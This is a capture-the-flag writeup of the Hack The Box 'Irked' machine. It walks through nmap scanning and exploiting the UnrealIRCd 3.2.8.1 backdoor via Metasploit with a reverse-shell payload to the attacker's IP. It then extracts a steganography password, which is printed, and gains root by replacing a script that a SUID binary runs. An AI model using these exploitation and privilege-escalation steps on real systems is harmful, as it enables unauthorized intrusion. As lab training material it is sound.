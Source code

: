 ```yaml
---
title: "Irked"
description: "Writeup for Irked machine from HTB"
date: 2020-07-13
author: "Pablo Jesús González Rubio"
cover: "irked.png"
coverAlt: "Irked icon"
toc: true
tags: [ "Writeup" ]
---
```


## Scanning

```
nmap -sC -sV -Pn -p- -T5 irked.htb | tee nmap.txt
```

Output:

```
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          38536/tcp6  status
|   100024  1          49174/tcp   status
|   100024  1          54286/udp6  status
|_  100024  1          57650/udp   status
8067/tcp  open  irc     UnrealIRCd
49174/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
```

## Enumeration

We see the service UnrealIRCd which is the oddest one, in the HTTP there's no more than an image.

We try to connect to the IRC with `Weechat`:

```
/server add irked irked.htb/8067 -autoconnect
/connect irked
```

It says it's running `Unreal3.2.8.1` and that the IRC network is called ROXNet

## Exploitation

Doing a searchsploit we find some vulnerabilities for 3.2.8.1 version:

```
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                         | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                              | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                       | linux/remote/13853.pl
```

We use the first one with Metasploit:

```
set RHOST irked.htb
set RPORT 8067
set LHOST 10.10.14.11
set LPORT 4444
set payload cmd/unix/reverse
run
```

We get the session as `ircd`.

## Privilege Escalation

### User

Investigating the `home` directory we see the user `djmardov`, and doing an `ls -laR` there are 2 interesting files in Documents: `.backup` y el `user.txt`.

`.backup` contains:

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

The text makes us understand that that's the password for a steganography image, we take the one from the HTTP port and:

```
steghide extract -sf irked.jpg
```

We get the pass: `Kab6h+m+bbp2J:HG`

With this we can SSH into the machine or change to user `djmardov` with `su`.

### Root

Looking at the SUID files (`find / -perm -u=s -type f 2>/dev/null`) we see an odd one: `/usr/bin/viewuser`. When executing it, it lists some users and runs a script in `/tmp/listusers` as root.

The way to get root access in this situation is to hijack the `listusers` script with a reverse shell or to a bash shell to get instant access, like so:

`cp /bin/sh /tmp/listusers`

We are root!
